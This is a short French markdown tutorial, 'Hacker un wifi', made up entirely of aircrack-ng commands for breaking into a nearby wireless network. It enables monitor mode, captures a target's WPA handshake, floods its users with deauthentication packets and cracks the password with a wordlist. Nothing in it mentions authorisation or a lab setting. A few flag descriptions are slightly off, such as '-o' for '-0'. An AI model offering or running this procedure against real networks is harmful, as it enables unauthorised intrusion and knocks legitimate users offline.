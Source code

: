 # Hacker un wifi

## pré requis :
Aircrack-ng :
    
- installation : `sudo apt-get install -y aircrack-ng`

## tuto :

1. choisir l'interface : 
   - `ifconfig`
  
2. kill tout les processus lancé et Lancer le mode moniteurr sur l'interface concernée :
   - `sudo airmon-ng check kill`
   - `sudo airmon-ng start [INTERFACE]`

3. Utiliser airodump pour scanner tous les réseaux aux alentours :
    -  `sudo airodump-ng [INTERFACEmon]`

4. Scanner le réseaux et mettre le handshake trouvé dans un fichier :
    
   - `sudo airodump-ng --bssid [BSSID] -c [CHANNEL] [INTERFACE] --write handshake/handshake.cap`\
    **help :** --bssid = bssid du wifi cible | -c = channel du wifi [1-13] | 
    --write = stocke les information capturé dans la location donnée

5. En laissant tourner le scan du handshake, envoyez des paquets de désauthentification aux autulisateurs du wifi :
   - `sudo aireplay-ng -0 100 -a [BSSID] [INTERFACE]`\
   **help :** -o = nombre de pacquet de désauthentification a envoyer | -a = Bssid du wifi cible

6. Cracker le handshake :
   - `sudo aircrack-ng handshake/handshake.cap-01.cap-w [WORDLIST] `\
   **help :** -w = location de la wordlist

7. enlever le mode moniteur et rallumer le service : 
   - `sudo airmon-ng stop [INTERFACE]`
   - ` sudo service network-manager restart`
  
